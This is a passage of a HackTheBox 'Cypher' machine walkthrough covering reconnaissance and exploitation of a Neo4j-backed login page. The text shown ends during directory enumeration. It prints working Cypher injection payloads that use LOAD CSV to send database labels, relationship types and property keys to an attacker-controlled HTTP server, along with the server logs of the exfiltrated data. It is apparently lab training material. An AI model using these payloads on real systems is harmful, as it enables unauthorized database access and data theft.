









## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
- [Enumeration the Web Application](#Enumeration-the-Web-Application)
- [Cypher Injection](#Cypher-Injection)
- [Directory Busting](#Directory-Busting)
- [Investigating the JAR File](#Investigating-the-JAR-File)
- [Foothold](#Foothold)
    - [Back to Cypher Injection](#Back-to-Cypher-Injection)
- [Enumeration](#Enumeration)
- [Privilege Escalation to graphasm](#Privilege-Escalation-to-graphasm)
    - [Password Reuse](#Password-Reuse)
- [user.txt](#usertxt)
- [Pivoting](#Pivoting)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Abusing BBOT](#Abusing-BBOT)
- [root.txt](#roottxt)
- [Post Exploitation](#post-exploitation)

## Summary

The `Foothold` is build around `Neo4j` and `Graphasm`. The `login page` is vulnerable to `Cypher Injection`. Through `Directory Bustinng` it's possible to find a `/testing/` directory which contains a `.jar` file. After having a look at the `custom APOC plugin` it reveals the `procedure name` which is required to gain `Remote Code Execution (RCE)` through the `custom plugin`. A simple `reverse shell payload` grants access to the box as the user `neo4j`. Through `plaintext credentials` inside a `.yml` file and `password reuse` it is possible to `escalate privileges` to the user `graphasm` which then provides the way to the `user.txt`. From here on the last step is to read the `root.txt` directly through `BBOT` by abusing the configuration of `sudo` and setting the `debug` option while pointing to the `root.txt` as `configuration file`.

## Reconnaissance

### Port Scanning

On the port scanning side we only found port `22/TCP` and port `80/TCP` open for us to work on. Port `80/TCP` redirected to `http://cypher.htb` which we added to our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.52.34                            
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-01 20:04 CET
Nmap scan report for 10.129.52.34
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.01 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.52.34    cypher.htb
```

### Enumeration of Port 80/TCP

The website itself used `Graphasm` and offered along aside a `About` section a page to `login` to the application.

- [http://cypher.htb/](http://cypher.htb/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://cypher.htb/
http://cypher.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.52.34], JQuery[3.6.1], Script, Title[GRAPH ASM], nginx[1.24.0]
```






We inspected the `source` of the `website` and found a neat little hint about `not to store user accounts` in the underlying `Neo4j database`.

- [view-source:http://cypher.htb/login](view-source:http://cypher.htb/login)

```c
// TODO: don't store user accounts in neo4j
```



## Enumeration the Web Application

We tried the usual credentials like `admin:admin` but they didn't worked. So we switched to a single `'` to see if we can cause any errors. And indeed the application broke after we send our request.

```c
'
```

```c
POST /api/auth HTTP/1.1
Host: cypher.htb
Content-Length: 31
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://cypher.htb
Referer: http://cypher.htb/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"username":"'","password":"'"}
```

```c
HTTP/1.1 400 Bad Request
Server: nginx/1.24.0 (Ubuntu)
Date: Sat, 01 Mar 2025 19:09:53 GMT
Content-Length: 3432
Connection: keep-alive

Traceback (most recent call last):
  File "/app/app.py", line 142, in verify_creds
    results = run_cypher(cypher)
  File "/app/app.py", line 63, in run_cypher
    return [r.data() for r in session.run(cypher)]
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/session.py", line 314, in run
    self._auto_result._run(
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 221, in _run
    self._attach()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 409, in _attach
    self._connection.fetch_message()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner
    func(*args, **kwargs)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message
    res = self._process_message(tag, fields)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message
    response.on_failure(summary_metadata or {})
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 55 (offset: 54))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = ''' return h.value as hash"
                                                       ^}

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/app/app.py", line 165, in login
    creds_valid = verify_creds(username, password)
  File "/app/app.py", line 151, in verify_creds
    raise ValueError(f"Invalid cypher query: {cypher}: {traceback.format_exc()}")
ValueError: Invalid cypher query: MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = ''' return h.value as hash: Traceback (most recent call last):
  File "/app/app.py", line 142, in verify_creds
    results = run_cypher(cypher)
  File "/app/app.py", line 63, in run_cypher
    return [r.data() for r in session.run(cypher)]
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/session.py", line 314, in run
    self._auto_result._run(
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 221, in _run
    self._attach()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 409, in _attach
    self._connection.fetch_message()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner
    func(*args, **kwargs)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message
    res = self._process_message(tag, fields)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message
    response.on_failure(summary_metadata or {})
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 55 (offset: 54))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = ''' return h.value as hash"
                                                       ^}


```





## Cypher Injection

We looked up some `payloads` for `Cypher Injections` and started `enumerating labels`.

- [https://exploit-notes.hdks.org/exploit/database/neo4j-pentesting/](https://exploit-notes.hdks.org/exploit/database/neo4j-pentesting/)

```c
' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.96/?label='+label as l RETURN 0 as _0 //
```

```c
POST /api/auth HTTP/1.1
Host: cypher.htb
Content-Length: 157
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://cypher.htb
Referer: http://cypher.htb/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"username":"' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.96/?label='+label as l RETURN 0 as _0 //","password":"foobar"}
```

```c
HTTP/1.1 400 Bad Request
Server: nginx/1.24.0 (Ubuntu)
Date: Sat, 01 Mar 2025 19:23:00 GMT
Content-Length: 829
Connection: keep-alive

Traceback (most recent call last):
  File "/app/app.py", line 144, in verify_creds
    db_hash = results[0]["hash"]
KeyError: 'hash'

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/app/app.py", line 165, in login
    creds_valid = verify_creds(username, password)
  File "/app/app.py", line 151, in verify_creds
    raise ValueError(f"Invalid cypher query: {cypher}: {traceback.format_exc()}")
ValueError: Invalid cypher query: MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.96/?label='+label as l RETURN 0 as _0 //' return h.value as hash: Traceback (most recent call last):
  File "/app/app.py", line 144, in verify_creds
    db_hash = results[0]["hash"]
KeyError: 'hash'


```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cypher/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.52.34 - - [01/Mar/2025 20:22:52] "GET /?label=USER HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:22:53] "GET /?label=HASH HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:22:56] "GET /?label=DNS_NAME HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:22:56] "GET /?label=SHA1 HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:22:58] "GET /?label=SCAN HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:22:58] "GET /?label=ORG_STUB HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:23:00] "GET /?label=IP_ADDRESS HTTP/1.1" 200 -
```



Since we successfully pulled off a `Cypher Injection` and managed to find some `labels`, we moved on to `Relationship Types`.

```c
' OR 1=1 WITH 1 as a CALL db.relationshipTypes() YIELD relationshipType LOAD CSV FROM 'http://10.10.14.96/?rel='+relationshipType as l RETURN 0 as _0 //
```

```c
{"username":"' OR 1=1 WITH 1 as a CALL db.relationshipTypes() YIELD relationshipType LOAD CSV FROM 'http://10.10.14.96/?rel='+relationshipType as l RETURN 0 as _0 //","password":"user"}
```

```c
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=SECRET HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=TARGET HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=speculate HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=A HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=AAAA HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=SOA HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=NS HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=TXT HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=PTR HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:32:58] "GET /?rel=MX HTTP/1.1" 200 -
```

That was interesting output but nothing useful so far. Next we checked the `Property Keys`.

```c
{"username":"' OR 1=1 WITH 1 as a CALL db.propertyKeys() YIELD propertyKey LOAD CSV FROM 'http://10.10.14.96/?prop='+propertyKey as l RETURN 0 as _0 //","password":"user"}
```

```c
10.129.52.34 - - [01/Mar/2025 20:34:18] "GET /?prop=username HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:18] "GET /?prop=value HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:18] "GET /?prop=data HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:18] "GET /?prop=name HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:18] "GET /?prop=parent HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:18] "GET /?prop=discovery_context HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:18] "GET /?prop=parent_chain HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:18] "GET /?prop=scope_description HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=module HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=scan HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=type HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=uuid HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=web_spider_distance HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=tags HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=scope_distance HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=parent_uuid HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=module_sequence HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=id HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=discovery_path HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=timestamp HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=resolved_hosts HTTP/1.1" 200 -
10.129.52.34 - - [01/Mar/2025 20:34:19] "GET /?prop=host HTTP/1.1" 200 -

```

## Directory Busting

We felt that we missed something at this point so we went back, started with `directory busting` and found a `/testing/` directory which contained the file `custom-apoc-extension-1.0-SNAPSHOT.jar`.

```c
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://cypher.htb/

  _|. _ _  _  _  _ _|_    v0.4.3                                                 
 (_||| _) (/_(_|| (_| )                                                                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_cypher.htb/__25-03-01_20-50-16.txt

Target: http://cypher.htb/

[20:50:16] Starting:                                                             
[20:50:28] 200 -    5KB - /about.html                                       
[20:50:28] 200 -    5KB - /about                                            
[20:50:40] 307 -    0B  - /api  ->  /api/docs                               
[20:50:40] 404 -   22B  - /api-doc
[20:50:40] 404 -   22B  - /api-docs
[20:50:40] 404 -   22B  - /api.log                                          
[20:50:40] 404 -   22B  - /api.php
[20:50:40] 404 -   22B  - /api.py
[20:50:40] 307 -    0B  - /api/  ->  http://cypher.htb/api/api              
[20:50:40] 404 -   22B  - /api/2/explore/
[20:50:40] 404 -   22B  - /api/2/issue/createmeta
[20:50:40] 404 -   22B  - /api/__swagger__/
[20:50:40] 404 -   22B  - /api/_swagger_/                                   
[20:50:40] 404 -   22B  - /api/api
[20:50:40] 404 -   22B  - /api/api-docs                                     
[20:50:40] 404 -   22B  - /api/apidocs/swagger.json
[20:50:40] 404 -   22B  - /api/apidocs
[20:50:40] 404 -   22B  - /api/batch                                        
[20:50:40] 404 -   22B  - /api/error_log                                    
[20:50:40] 404 -   22B  - /api/jsonws
[20:50:40] 404 -   22B  - /api/package_search/v4/documentation
[20:50:40] 404 -   22B  - /api/proxy
[20:50:40] 404 -   22B  - /api/snapshots
[20:50:40] 404 -   22B  - /api/spec/swagger.json
[20:50:40] 404 -   22B  - /api/swagger
[20:50:40] 404 -   22B  - /api/swagger.json                                 
[20:50:40] 404 -   22B  - /api/swagger.yaml
[20:50:40] 404 -   22B  - /api/swagger.yml
[20:50:40] 404 -   22B  - /api/swagger/swagger                              
[20:50:40] 404 -   22B  - /api/swagger/ui/index
[20:50:40] 404 -   22B  - /api/timelion/run
[20:50:40] 404 -   22B  - /api/v1
[20:50:40] 404 -   22B  - /api/v1/
[20:50:40] 404 -   22B  - /api/v1/swagger.json                              
[20:50:40] 404 -   22B  - /api/v1/swagger.yaml
[20:50:40] 404 -   22B  - /api/v2                                           
[20:50:40] 404 -   22B  - /api/v2/
[20:50:40] 404 -   22B  - /api/v2/helpdesk/discover
[20:50:40] 404 -   22B  - /api/v2/swagger.json
[20:50:40] 404 -   22B  - /api/application.wadl
[20:50:40] 404 -   22B  - /api/cask/graphql
[20:50:40] 404 -   22B  - /api/config
[20:50:40] 404 -   22B  - /api/v2/swagger.yaml                              
[20:50:40] 404 -   22B  - /api/docs
[20:50:40] 404 -   22B  - /api/docs/                                        
[20:50:40] 404 -   22B  - /api/v4
[20:50:40] 404 -   22B  - /api/version
[20:50:41] 404 -   22B  - /api/profile
[20:50:41] 404 -   22B  - /apidoc
[20:50:41] 404 -   22B  - /apiserver-aggregator.key
[20:50:41] 404 -   22B  - /api/v3                                           
[20:50:41] 404 -   22B  - /api/jsonws/invoke                                
[20:50:41] 404 -   22B  - /api/vendor/phpunit/phpunit/phpunit               
[20:50:41] 404 -   22B  - /apibuild.pyc                                     
[20:50:41] 404 -   22B  - /api/whoami
[20:50:41] 404 -   22B  - /apiserver-key.pem                                
[20:50:41] 404 -   22B  - /api/login.json                                   
[20:50:41] 404 -   22B  - /apis                                             
[20:50:41] 404 -   22B  - /apiserver-aggregator-ca.cert
[20:50:41] 404 -   22B  - /apidocs
[20:50:41] 404 -   22B  - /apiserver-aggregator.cert                        
[20:50:41] 404 -   22B  - /apiserver-client.crt                             
